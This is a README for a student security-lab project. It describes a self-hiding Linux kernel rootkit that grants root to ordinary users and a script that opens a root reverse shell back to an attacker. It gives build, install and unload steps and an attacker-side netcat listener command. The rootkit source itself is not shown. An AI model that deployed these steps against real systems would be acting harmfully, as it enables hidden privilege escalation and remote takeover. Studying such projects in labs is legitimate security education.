 # Securitylab Project - Root Privileges Reverse Shell

## Team Member
Sittichok Thanomkulrat and Xianze Zhan

## Tested Environment
Ubuntu 16.04(64 bit) with Kernel 4.4.0

## What Does it do?
We implemented a rootkit module. It can hide itself from the module list and grant the root access for standard user after it has been installed. The non-root user can then run the reverse shell script to open a root reverse shell and connect back to the attacker. 

## File You May Care
- install_rootkit.sh
- reverse_shell.sh
- rootkit.c
- rootkit.h

## How to Load & Run? <br />
On target bot side: <br />
  make <br />
  sudo ./install_rootkit.sh <br />
  
On Attacker side: <br />
  nc -l -p <listen_port> -vvv <br />
  
Standard user on target side:<br />
  ./reverse_shell.sh <br />
You may modify the attacker server ip address & listen port in the reverse_shell script <br />

## How to Unload？<br />
  echo "unhide" > /proc/CS460/status<br />
  sudo rmmod rootkit
